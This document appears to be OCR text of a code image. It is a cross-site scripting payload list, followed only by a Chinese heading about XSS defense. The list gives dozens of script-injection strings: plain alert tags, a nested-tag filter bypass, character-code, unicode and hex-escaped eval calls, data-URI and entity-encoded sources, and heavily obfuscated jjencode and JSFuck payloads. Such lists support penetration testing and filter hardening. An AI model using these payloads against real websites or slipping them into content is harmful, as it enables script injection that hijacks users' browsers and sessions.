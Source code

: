 <script src="http://baidu.com"></script><br /><script>alert("XSS")</script><br /><scr<script>ipt>alert("XSS")</scr<script>ipt><br /><SCRIPT>a=/XSS/ alert(a.source)</SCRIPT><br /><script>alert(/1/.source)</script><br /><script>alert(1);</script><br /><script>prompt(1);</script><br /><script>confirm(1);</script><br /><script>alert(/88199/)</script><br /><script>alert(`a`)</script><br /><script>alert('a')</script><br /><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT><br /><script>eval(alert(1))</script><br /><script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 50, 51, 41))</script><br /><script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029")</script><br /><script>eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')</script><br /><script>setTimeout('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')</script><br /><script>setTimeout(alert(1),0)</script><br /><script>setTimeout`alert\x28\x27 xss \x27\x29`</script><br /><script>setInterval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')</script><br /><script src=data:text/javascript,alert(1)></script><br /><script src=&#100&#97&#116&#97:text/javascript,alert(1)></script><br /><script>\u0061\u006C\u0065\u0072\u0074(123)</script><br /><script>\u0061\u006C\u0065\u0072\u0074(1)</script><br /><script>\u0061\u006C\u0065\u0072\u0074`a`</script><br /><script>window['alert'](0)</script><br /><script>parent['alert'](1)</script><br /><script>self['alert'](2)</script><br /><script>top['alert'](3)</script><br /><br /><script>alert("xss");;;;;;;;;;;;;;;;;    ;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;</script><br /><script>$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script><br /><script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>
# XSS漏洞防御
客户端用户
